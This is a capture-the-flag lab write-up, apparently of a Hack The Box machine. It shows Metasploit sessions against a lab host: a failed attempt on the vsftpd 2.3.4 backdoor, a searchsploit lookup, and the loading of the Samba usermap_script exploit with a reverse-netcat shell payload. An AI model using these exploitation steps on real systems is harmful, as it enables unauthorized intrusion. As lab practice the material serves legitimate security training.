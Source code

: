 ### Metasploit vsFTPd 2.3.4

```bash
└─$ msfconsole -q
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

Looks like its not FTP, then its SAMBA.

### Metasploit Samba 3.0.20

Looking up the samba version `3.0.20` in searchsploit:

```bash
└─$ searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - Username map script Command Execution (Metasploit) | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                            | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                    | linux_x86/dos/36741.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Can't find any manual notes so I must have gone "easy mode" and just used metasploit:

```bash
msf6 > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Ex
ecution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```